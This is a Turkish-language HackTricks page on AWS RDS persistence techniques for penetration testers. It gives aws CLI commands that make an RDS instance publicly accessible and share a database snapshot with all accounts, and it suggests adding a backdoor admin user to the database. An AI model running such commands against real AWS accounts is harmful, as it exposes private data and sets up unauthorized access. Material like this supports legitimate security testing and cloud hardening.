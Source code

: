 # AWS - RDS Sürekliliği

{{#include ../../../banners/hacktricks-training.md}}

## RDS

Daha fazla bilgi için kontrol edin:

{{#ref}}
../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### Örneği herkese açık erişilebilir hale getirin: `rds:ModifyDBInstance`

Bu izne sahip bir saldırgan, **mevcut bir RDS örneğini herkese açık erişilebilir hale getirmek için değiştirebilir**.
```bash
aws rds modify-db-instance --db-instance-identifier target-instance --publicly-accessible --apply-immediately
```
### Veritabanında bir yönetici kullanıcısı oluşturun

Bir saldırgan, **veritabanında bir kullanıcı oluşturabilir**, böylece ana kullanıcı şifresi değiştirilse bile **veritabanına erişimini kaybetmez**.

### Anlık görüntüyü herkese açık hale getirin
```bash
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
```
{{#include ../../../banners/hacktricks-training.md}}
